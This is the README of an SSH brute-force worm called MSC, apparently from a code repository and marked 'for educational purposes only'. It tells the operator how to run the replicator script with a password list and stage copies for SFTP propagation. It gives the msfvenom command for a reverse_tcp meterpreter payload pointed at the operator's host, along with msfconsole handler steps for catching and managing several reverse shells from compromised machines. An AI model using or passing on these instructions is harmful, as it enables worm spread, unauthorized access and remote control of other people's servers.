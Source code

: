 MSC (Major SSH Crisis)
FOR EDUCATIONAL PURPOSES ONLY!

Welcome to the SSH brute force worm MSC! Make sure to review code and make neccessary changes to your needs.

Example command to run the script:
python3 replicator.py passwords.txt

As well, inspect the code and make sure scripts (or copies) are located in a /tmp/worm/ directory so the SFTP exchange is successful.

To execute a reverse shell payload, make sure the payload or a copy of the payload is in the /tmp/worm directory. In replicator.py, our example payload is "gotcha".
To create a payload use the following command:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf > file_name.elf

Finally, to catch reverse shells executed by the worm, make sure to run a msfconsole meterpreter. Use exploit/multi/handler, set payload to linux/x86/meterpreter/reverse_tcp, 
set LHOST and LPORT, and set ExitOnSession to false. When you are ready to listen for incoming connections, use exploit -j from the module command line, use sessions command 
to navigate multiple sessions. Sessions -h for help! When exiting a shell, use the command background from the meterpreter line so the session is not terminated. 
